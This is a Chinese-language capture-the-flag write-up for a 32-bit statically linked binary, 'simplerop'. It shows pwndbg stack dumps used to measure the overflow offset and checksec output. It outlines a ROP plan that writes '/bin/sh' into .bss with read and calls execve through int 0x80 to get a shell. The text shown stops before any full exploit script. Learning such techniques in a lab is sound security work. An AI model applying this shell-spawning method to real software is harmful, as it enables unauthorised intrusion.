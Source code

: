 - `int 0x80`调用系统函数
- `.bss`段控制
- `32`位参数控制

1. 在主函数中存在溢出,但是栈空间并不准确,需要动态调试计算

```shell
pwndbg> telescope $ebp
00:0000│ ebp 0xffffcf28 —▸ 0x80495f0 (__libc_csu_fini) ◂— push ebx
01:0004│     0xffffcf2c —▸ 0x804903a (__libc_start_main+458) ◂— mov dword ptr [esp], eax
02:0008│     0xffffcf30 ◂— 0x1
03:000c│     0xffffcf34 —▸ 0xffffcfb4 —▸ 0xffffd100 ◂— '/home/bamuwe/simplerop'
04:0010│     0xffffcf38 —▸ 0xffffcfbc —▸ 0xffffd117 ◂— 'SHELL=/bin/bash'
05:0014│     0xffffcf3c ◂— 0x0
06:0018│     0xffffcf40 ◂— 0x0
07:001c│     0xffffcf44 —▸ 0x80481a8 (_init) ◂— push ebx
pwndbg> telescope $esp
00:0000│ esp 0xffffcef0 ◂— 0x0
01:0004│     0xffffcef4 —▸ 0xffffcf0c ◂— 0x41414141 ('AAAA')
02:0008│     0xffffcef8 ◂— 0x64 /* 'd' */
03:000c│     0xffffcefc —▸ 0x80495d2 (__libc_csu_init+130) ◂— add ebp, 1
04:0010│     0xffffcf00 ◂— 0x1
05:0014│     0xffffcf04 —▸ 0xffffcfb4 —▸ 0xffffd100 ◂— '/home/bamuwe/simplerop'
06:0018│     0xffffcf08 —▸ 0xffffcfbc —▸ 0xffffd117 ◂— 'SHELL=/bin/bash'
07:001c│ ecx 0xffffcf0c ◂— 0x41414141 ('AAAA')
```

得到距离返回地址`0x20`个距离

2. 程序中没有`system`函数也没有`/bin/sh`字符,都需要自己构造

   - 通过`int 0x80`系统调用`execve`构造`shell``

     `int80(11,"/bin/sh",null,null)`构造这样的`payload`,`11`代表了`execve`函数,在这里函数参数的传递和一般`32`位程序函数传参不同,是通过寄存器传参的,从左到右分别为`eax,ebx,ecx,edx`

   - 通过往`.bss`段上写入`/bin/sh`再调用得到`/bin/sh`

     ```shell
     bamuwe@qianenzhao:~$ file simplerop
     simplerop: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=bdd40d725b490b97d5a25857a6273870c7de399f, not stripped
     bamuwe@qianenzhao:~$ checksec simplerop
     [*] '/home/bamuwe/simplerop'
         Arch:     i386-32-little
         RELRO:    Partial RELRO
         Stack:    No canary found
         NX:       NX enabled
         PIE:      No PIE (0x8048000)
     ```

     程序中`.bss`段的内存地址每次运行不会改变,所以我们可以动态调试得到地址直接拿来使用

   - 在`ida`中可以看到有一个`read`函数,我们可以用它来实现往`.bss`段上的写入
